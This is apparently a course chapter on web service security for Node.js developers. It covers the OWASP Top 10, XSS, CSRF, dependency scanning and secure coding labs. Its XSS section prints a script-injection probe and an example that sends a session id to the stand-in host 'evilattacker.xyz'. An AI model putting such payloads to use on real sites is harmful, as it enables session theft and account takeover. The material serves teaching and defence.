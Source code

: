 # Web Service Security

We are going to focus on security related topic in this section. The target is to get familiar with common vulnerabilities that may be exposed by web services and how to avoid them.

## OWASP Top 10 Vulnerabilities

The Open Web Application Security Project \(OWASP\) is a non-profit organization dedicated to providing unbiased, practical information about application security. The [OWASP Top 10 Web Application Security Risks](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project) was updated in 2017 to provide guidance to developers and security professionals on the most critical vulnerabilities that are commonly found in web applications, which are also easy to exploit. These 10 application risks are dangerous because they may allow attackers to plant malware, steal data, or completely take over your computers or web servers.

For those who are new to security issues, they may find it hard to interpret those issues. Luckily there is a project called [Damn Vulnerable NodeJS Application](https://appsecco.com/books/dvna-developers-security-guide/intro.html) which demonstrates some of the security issues. It actually demonstrates the top 10 issues identified in year 2013, which is a bit different from the list in 2017. Nevertheless, it's still a good tool to learn about those security issues. \(Note: to play with this node application, you need to install [docker](https://www.docker.com/) on your computer.\)

Another website to learn OWASP Top 10 vulnerabilities is called [OWASP Juice Shop](https://github.com/bkimminich/juice-shop), which is an intentionally insecure webapp for security trainings written entirely in JavaScript which encompasses the entire OWASP Top Ten and other severe security flaws.

Out of those top 10 vulnerabilities, XSS and CSRF are very famous and worth more discussion.

### XSS \(Cross Site Scripting\)

Cross-site scripting, abbreviated to “XSS”, is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim’s browser. Once a hacker has done that, there’s a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

Here is an example of XSS Attack.

Assume you are filling in a form on some website. Let's say it's something innocuous like the quantity field on an order form or a comment on a comment form.

As a hacker, you can try to paste `<script>alert("haha")</script>` into the form in your system that will be viewable to someone else.

Now, what happens when the administrator views your latest orders? Basically, that javascript is now operating in the security context of the administrator. It could do something worse than alert\(\)... for example, it could grab his session token or a cookie's secret value \(depending on the cookie\) and send it off to `<img src=evilattacker.xyz/clear.gif?sid=xxxx>`, and \(assuming you control that `evilattacker.xyz` website\) now you can get those session cookies or tokens and you can login to the system as the administrator.

This is just one way to launch XSS attack. There are many variants. You can find more examples and details from the references:

* [XSS Tutorial](https://hackertarget.com/xss-tutorial/)
* [Veracode: XSS](https://www.veracode.com/security/xss)
* [OWASP: Cross-site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29)
* [Cross-site scripting for dummies](https://hackernoon.com/cross-site-scripting-for-dummies-be30f76fad09)
* [XSS Explained](https://www.securesolutions.no/xss-explained/)

How can we prevent from this kind of attack?

OWASP provided a [XSS \(Cross Site Scripting\) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)

Here are a few quick tips for developers:

* Make sure you always validate and escape the data submitted by the user, and do some sanitization on the user input data when you need to display them \(i.e. display the user input data as pure text, instead of loading that as javascript code\). For this purpose, you can use libraries like [xss-filter](https://github.com/yahoo/xss-filters)
* Use tools like [helmet](https://helmetjs.github.io/docs/xss-filter/) to set `X-XSS-Protection` header in HTTP response, so that the browser can do some basic detection on XSS attack.
* Another trick is to use [Http-Only Cookie](https://www.owasp.org/index.php/HttpOnly) so that session cookies cannot be accessed from JavaScript.
* If you need to store some information into the storage space in browser, use `session storage` instead of `local storage` if you don't need that information after the browser tab is closed.

As a user, you can protect yourself by using some browser side security features. Chrome and Safari has a built-in feature called [XSS Auditor](https://www.virtuesecurity.com/blog/understanding-xss-auditor/) that tires to mitigate XSS attacks although it can’t catch all possible XSS variants.

### CSRF \(Cross Site Request Forgery\)

Cross-site request forgery also known as single-click attack or session traversing, in which a malicious website will throw a request to a web application that the user is already authenticated against from a different website. This way an attacker can access functionality in a targeted web application via the victim’s already authenticated browser.

Imagine the following case: A User is logged into GMail and checks his mails. After she stays logged in for a while - that's a regular behavior - the user opens a new Tab and navigates to another site. This site contains code that fires a regular HTTP Request to the GMail servers - an image tag is enough to do so. Since the user is still logged in, the request is processed with her privileges - maybe changes some settings or deletes some mails, thanks to the fact that HTTP is stateless - that's it. The attack has been performed successfully and neither the user nor GMail haven't even noticed.

[Here is another example](https://youtu.be/hW2ONyxAySY), watch the first 8 minutes of this video.

How can we prevent from this kind of attack?

One of the idea is called [CSRF Token](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29_Prevention_Cheat_Sheet#Synchronizer_.28CSRF.29_Tokens), which validate user requests with a unique token that can only come from the genuine user session.

For Express.js based applications, you can generate CSRF tokens with a middleware called [csurf](https://github.com/expressjs/csurf).

As an end user, you can protect yourself against this attack using Firefox extension called [NoScript](https://noscript.net/) or Chrome plugin [uMatrix](https://github.com/gorhill/uMatrix) or [uBLock](https://github.com/gorhill/uBlock).

To get more details on CSRF attack, here are a few more articles:

* [Understanding CSRF](https://github.com/pillarjs/understanding-csrf)
* [Understanding the CSRF Vulnerability \(A Beginner Guide\)](http://www.hackingarticles.in/understanding-csrf-vulnerability-beginner-guide/)
* [CSRF DEMYSTIFIED](http://www.gnucitizen.org/blog/csrf-demystified/)
* [Wikipedia entry on CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)

## Follow Secure Coding Practices

As a developer, you need to be aware of the common security concerns and follow best practices when you write code.

Here are some of the guidelines:

* [Mozilla Secure Coding Guidelines](https://wiki.mozilla.org/WebAppSec/Secure_Coding_Guidelines)
* [OWASP Secure Coding Cheat Sheet](https://www.owasp.org/index.php/Secure_Coding_Cheat_Sheet)
* [JavaScript Web Application Secure Coding Practices](https://checkmarx.gitbooks.io/js-scp/)

You can also make use tools that automatically scan your code for potential security issues:

* [ESLint Plugin To Detect Possible Security Issues in Codes](https://www.npmjs.com/package/eslint-plugin-security)

## Make sure your NPM dependencies are secure

When you develop JavaScript based applications, you would have a lot of dependencies on 3rd party modules. How can you be confident that those dependencies do not have known vulnerabilities? Remember, using components with known vulnerabilities" is a part of the OWASP Top 10 and insecure libraries can pose a huge risk for your web app.

What are the vulnerabilities are we talking about? You can get some examples [here](https://snyk.io/vuln?packageManager=npm)

The tools below can scan the libraries you use and detect those with vulnerabilities

* [Snyk](https://snyk.io/)
* [Node Security Platform \(a.k.a NSP\)](https://nodesecurity.io/)
* [Retire.js](https://retirejs.github.io/retire.js/)

You should regularly review your dependencies. Avoid the unnecessary ones and make the rest up-to-date. To ensure your dependencies are up-to-date, you can use tools like [greenkeeper](https://greenkeeper.io/)

Here are a few articles to give you more tips on how to manage the risks from 3rd party libraries:

* [Controlling the Node.js security risk of npm dependencies](https://blog.risingstack.com/controlling-node-js-security-risk-npm-dependencies/) is a good article talking about the process to reduce the security risks from 3rd party dependencies.
* [Quick Introduction on GreenKeeper/Snyk/NSP/Retire.js](https://developers.redhat.com/blog/2017/04/12/using-snyk-nsp-and-retire-js-to-identify-and-fix-vulnerable-dependencies-in-your-node-js-applications/)
* [Eliminating Known Vulnerabilities With Snyk](https://www.smashingmagazine.com/2016/01/eliminating-known-security-vulnerabilities-with-snyk/)

## Labs

### Learn how to use Helmet

Follow this tutorial to learn about how to use Helmet: [https://www.twilio.com/blog/2017/11/securing-your-express-app.html](https://www.twilio.com/blog/2017/11/securing-your-express-app.html)

### Learn how to use csurf to prevent CSRF attack

Follow this tutorial to learn about how to use csurf: [https://www.twilio.com/blog/2017/11/securing-your-express-app.html](https://www.twilio.com/blog/2017/11/securing-your-express-app.html)

### Try to Fix OWASP Top 10 Vulnerabilities

Follow the guide to learn the TOP10 OWASP vulnerabilities

* [OWASP NodeGoat](https://github.com/OWASP/NodeGoat)
* [OWASP Juice Shop](https://github.com/bkimminich/juice-shop)
* [Damn Vulnerable NodeJS Application](https://appsecco.com/books/dvna-developers-security-guide/intro.html)

## Resources

### More Labs

* [HacksExplaining](https://www.hacksplaining.com/lessons)

### Recommended Readings

* [Node JS Security Tips](https://blog.risingstack.com/node-js-security-tips/)
* [Express Security Best Practices](https://expressjs.com/en/advanced/best-practice-security.html)
* [9 Security Practice to Keep Express from Getting Pwned](https://nodesource.com/blog/nine-security-tips-to-keep-express-from-getting-pwned/)
* [Secure Express App with various HTTP headers](https://github.com/helmetjs/helmet)
* [Writing Secure Express.js Apps](https://blog.liftsecurity.io/2012/12/07/writing-secure-express-js-apps)
* [Building Secure JavaScript Apps](https://nemethgergely.com/building-secure-javascript-applications/)
* [Simple Steps to Secure Your Express Node Application](http://scottksmith.com/blog/2014/09/04/simple-steps-to-secure-your-express-node-application/)
* [Awesome Node.js Security resources](https://github.com/lirantal/awesome-nodejs-security)

